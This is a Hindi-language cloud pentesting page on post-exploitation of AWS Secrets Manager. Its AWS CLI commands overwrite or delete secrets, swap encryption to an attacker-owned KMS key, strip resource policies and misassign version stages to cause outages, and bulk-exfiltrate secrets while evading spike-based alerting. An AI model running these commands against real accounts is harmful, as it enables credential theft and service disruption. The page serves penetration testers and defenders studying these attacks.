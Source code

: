 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

**secrets स्वयं संवेदनशील जानकारी हैं**, [check the privesc page](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) यह जानने के लिए कि इन्हें कैसे पढ़ा जाए।

### DoS Change Secret Value

secret के मान को बदलकर आप उन सभी सिस्टमों को **DoS** कर सकते हैं जो उस मान पर निर्भर करते हैं।

> [!WARNING]
> ध्यान दें कि पिछले मान भी संग्रहीत रहते हैं, इसलिए पहले वाले मान पर वापस जाना आसान है।
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

यदि हमलावर के पास secretsmanager:UpdateSecret अनुमति है, तो वे secret को ऐसे KMS key का उपयोग करने के लिए कॉन्फ़िगर कर सकते हैं जो हमलावर के स्वामित्व में हो। वह key शुरू में इस तरह सेट की जाती है कि कोई भी उससे एक्सेस और उपयोग कर सके, इसलिए secret को नई key के साथ अपडेट करना संभव होता है। यदि वह key उपलब्ध नहीं होती, तो secret को अपडेट नहीं किया जा सकता था।

secret के लिए key बदलने के बाद, हमलावर अपनी key की कॉन्फ़िगरेशन बदल देता है ताकि केवल वही ही उसे एक्सेस कर सके। इस तरह, secret के अगले वर्ज़नों में वह नई key से एन्क्रिप्ट होगा, और क्योंकि उस key तक पहुँच नहीं होगी, secret को पुनः प्राप्त करने की क्षमता खो जाएगी।

यह ध्यान रखना महत्वपूर्ण है कि यह अनुपलब्धता केवल बाद के वर्ज़नों में ही होगी, जब secret की सामग्री बदल जाएगी, क्योंकि वर्तमान वर्ज़न अभी भी मूल KMS key से एन्क्रिप्टेड है।
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

एक secret को delete करने के लिए न्यूनतम दिनों की संख्या 7 है।
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

यह संभव है कि आप किसी secret को restore कर सकें, जो उन secrets को पुनर्स्थापित करने की अनुमति देता है जिन्हें deletion के लिए शेड्यूल किया गया है, क्योंकि secrets के लिए न्यूनतम deletion अवधि 7 दिन और अधिकतम 30 दिन है। secretsmanager:GetSecretValue permission के साथ मिलकर, यह उनकी सामग्री प्राप्त करने में सक्षम बनता है।

जिस secret को हटाने की प्रक्रिया में रखा गया है उसे recover करने के लिए, आप निम्नलिखित command का उपयोग कर सकते हैं:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

यह क्रिया उस resource policy को हटाने की अनुमति देती है जो नियंत्रित करती है कि कौन किसी secret तक पहुँच सकता है।  

यदि resource policy को किसी विशिष्ट उपयोगकर्ताओं के समूह को एक्सेस की अनुमति देने के लिए कॉन्फ़िगर किया गया था, तो यह DoS का कारण बन सकता है।  

Resource policy हटाने के लिए:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

एक secret की स्थितियाँ उसके संस्करणों का प्रबंधन करने के लिए उपयोग की जाती हैं। AWSCURRENT उस सक्रिय संस्करण को चिह्नित करता है जिसका उपयोग एप्लिकेशन करते हैं, AWSPREVIOUS पिछले संस्करण को रखता है ताकि आवश्यक होने पर आप रोलबैक कर सकें, और AWSPENDING रोटेशन प्रक्रिया में किसी नए संस्करण को current बनाने से पहले उसे तैयार और सत्यापित करने के लिए उपयोग होता है।

एप्लिकेशन हमेशा AWSCURRENT वाले संस्करण को पढ़ते हैं। यदि कोई वह लेबल गलत संस्करण पर स्थानांतरित कर देता है, तो एप्स अमान्य क्रेडेंशियल्स का उपयोग करेंगे और विफल हो सकते हैं।

AWSPREVIOUS स्वतः उपयोग में नहीं आता। हालांकि, यदि AWSCURRENT हटा दिया जाए या गलत तरीके से पुनः असाइन किया जाए, तो ऐसा प्रतीत हो सकता है कि सब कुछ अभी भी पिछले संस्करण पर चल रहा है।
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Secrets Manager BatchGetSecretValue API का दुरुपयोग करके एक ही अनुरोध में अधिकतम 20 secrets प्राप्त करें। यह प्रत्येक secret के लिए GetSecretValue को दोहराने की तुलना में API-कॉल की मात्रा को नाटकीय रूप से कम कर सकता है। यदि filters (tags/name) इस्तेमाल किए जाते हैं, तो ListSecrets अनुमति भी आवश्यक है। CloudTrail तब भी बैच में प्राप्त प्रत्येक secret के लिए एक GetSecretValue इवेंट रिकॉर्ड करता है।

आवश्यक अनुमतियाँ
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue — प्रत्येक लक्षित secret के लिए
- secretsmanager:ListSecrets — यदि --filters का उपयोग कर रहे हैं
- kms:Decrypt — उन CMKs पर जिनका उपयोग secrets द्वारा किया गया है (यदि aws/secretsmanager का उपयोग नहीं कर रहे हैं)

> [!WARNING]
> ध्यान दें कि अनुमति `secretsmanager:BatchGetSecretValue` अकेले secrets प्राप्त करने के लिए पर्याप्त नहीं है; आपको प्रत्येक secret को प्राप्त करने के लिए `secretsmanager:GetSecretValue` भी चाहिए।

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate द्वारा filters (tag key/value या name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
आंशिक विफलताओं को संभालना
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
प्रभाव
- कम API calls के साथ कई secrets का त्वरित “smash-and-grab”, संभावित रूप से उन alerting को बायपास कर सकता है जो GetSecretValue के spikes पर tuned हैं।
- CloudTrail logs में batch द्वारा retrieve किए गए प्रत्येक secret के लिए अभी भी एक GetSecretValue event शामिल होता है।
